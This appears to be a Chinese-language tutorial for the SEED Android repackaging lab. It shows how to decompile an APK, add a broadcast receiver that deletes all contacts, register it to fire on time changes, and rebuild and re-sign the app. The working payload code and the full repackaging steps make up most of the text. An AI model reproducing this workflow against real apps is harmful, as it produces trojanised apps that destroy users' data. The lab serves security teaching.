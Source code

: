 # 删除所有联系人

对已存在的安卓应用插入恶意代码，并重新打包

重打包攻击是一种很常见的对安卓设备的攻击形式，攻击者往往从安卓市场下载受欢迎的应用，加入一些恶意参数然后上传到应用市场。
用户很难分辨原始应用和修改后的应用。一旦修改后的应用被安装，恶意代码就可以执行，比如获取root权限等。

重打包攻击之所以容易实现是因为安卓应用的二进制代码很容易修改

## task1: 获得一个安卓APK文件并安装

![攻击概览](../img/anrepack-overview.png)

!!! 环境问题

    由于实验用安卓虚拟机不是物理机，有些应用在虚拟机下可能无法运行，其中原因之一是这些应用用了原生代码。
    原生代码跑在物理机上在ARM处理器用二进制代码，而安卓虚拟机跑在x86处理器上，这需要原代码，而我们没有源代码，
    可能会崩溃，遇到这种情况就换一个app就好。

1、宿主机中[下载app](https://seedsecuritylabs.org/Labs_20.04/Mobile/Android_Repackaging/files/RepackagingLab.apk.zip)  
2、把下载的app拖到ubuntu虚拟机的桌面  
3、连接安卓虚拟机  
```bash
adb connect 10.0.2.4
```
4、安装apk
![安装apk](../img/anenv-install-apk.png)

安装之后就多了一个app
![安装app](../img/anenv-install-app.png)

## task2: 对app反汇编

APKTool是一款编码和重新编译安卓app的工具

```bash
apktool d RepackagingLab.apk
```

## task3: 插入恶意代码

在安卓组件中有四类组件，分别是activity、service、broadcast receiver、content provider。前两类最常用。
在任何一个组件中都可以插入恶意代码，但是最重要的是能触发恶意代码而不被用户发现。  
加入代码可以是直接修改已经存在的smali文件，但是有可能会损坏app，更好的方案是增加一个独立的文件，这里最简单的是
用broadcast receiver，这个是系统触发的。  
例如，设置系统时间后，TIME_SET broadcast就触发了，重启后，BOOT_COMPLETED信号就广播发出了，我们可以写一个广播
接收者监听这些信号。恶意代码例子如下：
```java
public class MaliciousCode extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        ContentResolver contentResolver = context.getContentResolver();
        Cursor cursor = contentResolver.query
            (ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
        while (cursor.moveToNext()) {
            String lookupKey = cursor.getString
                (cursor.getColumnIndex(ContactsContract.Contacts.LOOKUP_KEY));
                
            Uri uri = Uri.withAppendedPath
                (ContactsContract.Contacts.CONTENT_LOOKUP_URI, lookupKey);
            contentResolver.delete(uri, null, null);
        }
    }
}
```
上面这个恶意代码如果被触发，可以删除所有联系人信息。一般在本地写好java代码，再编译成smali文件

这边我们直接用已经编译好的[smali文件](https://seedsecuritylabs.org/Labs_20.04/Mobile/Android_Repackaging/files/MaliciousCode.smali),
下载下来，拖到ubuntu虚拟机，如下：  
![放入恶意代码](../img/anrepack-malicious.png)

到这里我们还需要注册一下这个广播事件，注册需要修改AndroidManifest.xml这个文件，需要增加以下三行语句：  
```xml
<manifest...>
    ...
    <uses-permission android:name="android.permission.READ_CONTACTS" /> ➀
    <uses-permission android:name="android.permission.WRITE_CONTACTS" /> ➁
    ....
    <application>
        .....
        .....
        <receiver android:name="com.MaliciousCode" >
            <intent-filter>
                <action android:name="android.intent.action.TIME_SET" /> ➂
            </intent-filter>
        </receiver>
    </application>
</manifest>
```
第1、2行使APP有读取和写入联系人权限，第3行设置后每次修改系统时间，我们的APP会被调用，最终文件  
```xml
<?xml version="1.0" encoding="utf-8" standalone="no"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" package="com.mobiseed.repackaging" platformBuildVersionCode="23" platformBuildVersionName="6.0-2166767">
    <uses-permission android:name="android.permission.READ_CONTACTS" />
    <uses-permission android:name="android.permission.WRITE_CONTACTS" />
    <application android:allowBackup="true" android:debuggable="true" android:icon="@drawable/mobiseedcrop" android:label="@string/app_name" android:supportsRtl="true" android:theme="@style/AppTheme">
        <activity android:label="@string/app_name" android:name="com.mobiseed.repackaging.HelloMobiSEED" android:theme="@style/AppTheme.NoActionBar">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <receiver android:name="com.MaliciousCode" >
             <intent-filter>
                 <action android:name="android.intent.action.TIME_SET" /> 
             </intent-filter>
        </receiver>
    </application>
</manifest>
```

## task4: 对app重打包

### 1、重编译APK
```bash
apktool b RepackagingLab
```
RepackagingLab是要打包文件夹，编译文件会放在dist目录    
![重编译](../img/anrepack-rebuild.png)

### 2、对APK文件签名  

1、生成公钥私钥对  
```bash
keytool -alias yudankey -genkey -v -keystore mykey.keystore
```

2、对APK签名  
```bash
jarsigner -keystore mykey.keystore RepackagingLab.apk yudankey
```

## task5: 安装app触发恶意代码

1、卸载老的  
首先必须把之前的app卸载，否则由于签名不符会无法安装  
settings-app-Repackaging Lab--uninstall  
![卸载](../img/anrepack-uninstall.png)

2、安装新的  
![安装新的](../img/anrepack-reinstall.png)

3、设置权限  
其次需要让我们的应用有权限访问联系人，在真实场景中，应用往往会询问用户请求获取权限  
settings-app-Repackaging Lab--permission  
![设置权限](../img/anrepack-set-permission.png)

4、增加联系人  
系统已经预置了一个seed联系人了，不加也可以

5、app需要运行一次注册receiver

6、修改时间来触发恶意代码  
settings-Date and Time--Set time  
当调整时间后，再看联系人app，发现所有联系人已经被删除了

